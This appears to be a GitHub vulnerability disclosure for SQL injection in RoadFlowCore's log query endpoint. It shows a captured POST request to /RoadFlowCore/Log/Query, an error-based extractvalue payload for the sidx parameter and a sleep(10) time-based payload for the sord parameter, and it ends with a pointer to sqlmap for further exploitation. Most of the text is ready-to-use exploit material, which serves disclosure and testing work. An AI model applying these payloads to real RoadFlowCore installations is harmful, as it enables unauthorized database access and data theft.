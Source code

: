 1、Use the default account to log in normally
![image](https://github.com/yangxixx/vulhub/assets/77321474/d4f9c215-11d0-4438-9ee6-03f5eb6db66e)
2、Click log query, use burpsuite to capture packets
![image](https://github.com/yangxixx/vulhub/assets/77321474/670d14ce-b2ff-4ae2-bae9-1628ddda29a8)
![image](https://github.com/yangxixx/vulhub/assets/77321474/a19ee1a0-ccfa-496e-9ce8-7003e4e17f71)
3、package：
POST /RoadFlowCore/Log/Query?appid=0B736354-9473-4D66-B9C0-15CAC149EB05&tabid=tab_0B73635494734D66B9C015CAC149EB05 HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 116
Origin: http://127.0.0.1:5000
Connection: close
Referer: http://127.0.0.1:5000/RoadFlowCore/Log/Index?appid=0B736354-9473-4D66-B9C0-15CAC149EB05&rf_appopenmodel=0&tabid=tab_0B73635494734D66B9C015CAC149EB05
Cookie: rf_login_uniqueid=C9965CEC-493C-4433-8F81-84267ECAF9BD; rf_core_rootdir=; usermenutype=1; rf_core_theme=blue; roadflowcorepagesize=15; RoadFlowCore.Session=CfDJ8EvfmoetFvtFn34qbL0bhQi732bT78siA0k9IyuNV7izzD2HaiCszYysIMm3IHL9tKRQYFo3z2VcOb%2Ba7grHTmnatCG6w2h3Ve0ZUYoFBB%2Fnug6MXcNvN6CJrON40GKlvi5uELoiS8mWsxVTkmR1Bpe%2Fn2KtT%2FGnfrgDuJSlMd8T; .AspNetCore.Antiforgery.SqRQVSlQWbo=CfDJ8EvfmoetFvtFn34qbL0bhQiNLjtoCHp8DTQQSTvj4Wzi3rHnvueNRx4iL7I9mxKb1WgacCXdIFkCxyXh520nuIsS3_NqXifucqHDrhneFPLFspDzv8GeNY-F9Sr7xbTcCfiEOUKwVDAgHp8tTx5DRJI
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

appid=0B736354-9473-4D66-B9C0-15CAC149EB05&_search=false&nd=1686014077522&rows=20000&page=1&sidx=WriteTime&sord=desc

4、There is an error injection in the sidx parameter of this package, replace the value of sidx "extractvalue%281%2Cconcat%28char%28126%29%2Cmd5%281205948442%29%29%29"，Successfully broke the md5 value.
![image](https://github.com/yangxixx/vulhub/assets/77321474/3ee1bd4e-b4c8-4b20-8c18-b012582c945c)
5、There is time injection in the sord parameter of this package, replace the value of sord with "desc%2C%28select%2Afrom%28select%2Bsleep%2810%29union%2F%2A%2A%2Fselect%2B1%29a%29"，Successfully delayed by 10 seconds.
![image](https://github.com/yangxixx/vulhub/assets/77321474/1c7f840f-be87-41a3-9f10-104b66bdb641)
6、Use the sqlmap tool to exploit.
![image](https://github.com/yangxixx/vulhub/assets/77321474/e4bd554b-3d67-4ad6-8100-c53a76c9abdc)
![image](https://github.com/yangxixx/vulhub/assets/77321474/8b6734bc-e48a-4788-a751-d2f8f208336b)

